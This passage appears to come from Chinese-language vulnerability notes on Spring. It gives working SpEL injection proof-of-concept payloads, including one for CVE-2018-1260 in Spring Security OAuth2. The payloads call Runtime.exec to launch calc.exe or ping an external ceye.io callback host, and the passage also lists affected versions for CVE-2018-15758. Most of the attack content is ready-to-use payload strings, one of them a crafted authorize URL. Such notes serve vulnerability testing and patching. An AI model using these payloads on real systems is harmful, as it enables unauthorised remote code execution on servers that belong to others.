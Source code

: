 [https://www.cnblogs.com/hac425/p/9656747.html](https://www.cnblogs.com/hac425/p/9656747.html)

![image-20200331171801189](https://github-1300513062.cos.ap-shanghai.myqcloud.com/img/20200401131709.png)

POC：

```


1.  `username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe")]=xxx`
2.  `username[T(java.lang.Runtime).getRuntime().exec("ping+xxx.ceye.io")]=test`


```

### [](#CVE-2018-1260-Spring-Security-Oauth2-远程代码执行 "CVE-2018-1260 Spring Security Oauth2 远程代码执行")CVE-2018-1260 Spring Security Oauth2 远程代码执行

影响版本：

```


1.  `Spring Security OAuth 2.3 to 2.3.2`
2.  `Spring Security OAuth 2.2 to 2.2.1`
3.  `Spring Security OAuth 2.1 to 2.1.1`
4.  `Spring Security OAuth 2.0 to 2.0.14`


```

[https://www.seebug.org/vuldb/ssvid-97287](https://www.seebug.org/vuldb/ssvid-97287)

此漏洞和CVE-2016-4977类似

POC：

```


1.  `http://localhost:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.baidu.com&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22ping%20r9rub4.ceye.io%22%29%7D`


```

### [](#CVE-2018-15758-spring-security-oauth2权限提升 "CVE-2018-15758 spring-security-oauth2权限提升")CVE-2018-15758 spring-security-oauth2权限提升

影响版本：

```


1.  `Spring Security OAuth 2.3至2.3.3`
2.  `Spring Security OAuth 2.2至2.2.2`
3.  `Spring Security OAuth 2.1至2.1.2`
4.  `Spring Security OAuth 2.0到2.0.15`


```

